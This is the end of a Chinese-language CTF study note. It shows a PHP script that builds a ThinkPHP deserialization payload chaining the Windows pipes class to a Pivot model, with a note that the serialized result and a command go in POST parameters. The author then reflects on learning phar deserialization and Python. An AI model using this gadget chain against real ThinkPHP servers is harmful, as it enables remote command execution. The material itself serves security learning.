 ```php
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>

```

```
POST:data传序列化的结果，lin传命令
```

#### 其他

还有phar反序列化，java和python的，无奈语言基础有些薄弱，下个星期的打算是学一下脚本，尤其是python，主要在条件竞争（bp不知道为啥跑不了）一些题目就比如这个phar反序列化，就要用，快哭了。

